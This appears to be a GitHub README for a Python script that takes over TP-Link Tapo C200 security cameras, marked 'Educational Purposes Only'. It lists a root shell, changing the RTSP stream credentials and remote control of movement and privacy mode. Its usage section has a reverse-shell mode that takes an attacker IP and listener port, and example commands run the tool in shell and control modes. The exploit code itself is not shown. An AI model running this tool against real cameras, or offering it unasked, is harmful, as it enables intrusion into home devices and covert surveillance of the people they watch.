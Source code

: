 # Tapo C200 Control Script

### Educational Purposes Only

Python script to pwn the TL-Link Tapo c200 camera and get full access.

## Features

* Root shell access
* Changing RTSP video stream credentials
* Controlling the movement
* Enabling/Disabling privacy mode
* Saving and restoring presets
* Resetting position
* Rebooting 

## Usage

```
Tp-Link Tapo C200 Universal Control Script

options:
  -h, --help            show help message

Required Arguments:
  -t, --target
        Tapo C200 IP address
  -a, --attacker
        Your IP address
  -m, --mode {shell,rtsp,control}
        Operation mode:
            - shell    Get a reverse shell
            - rtsp     Change RTSP credentials
            - control  Control camera

Optional Arguments:
  -p, --revshell-port
        Port to listen for reverse shell on
  -v, --verbose         Enable debugging
```

## Screenshots

### Usage

![Usage](./images/usage.png)

### Shell

![Shell](./images/shell.png)

### Rtsp

![Rtsp](./images/rtsp.png)

### Control

![Control](./images/control.png)

## Examples

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m shell \
                       -p 12345
```

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m control \
                       -v
```
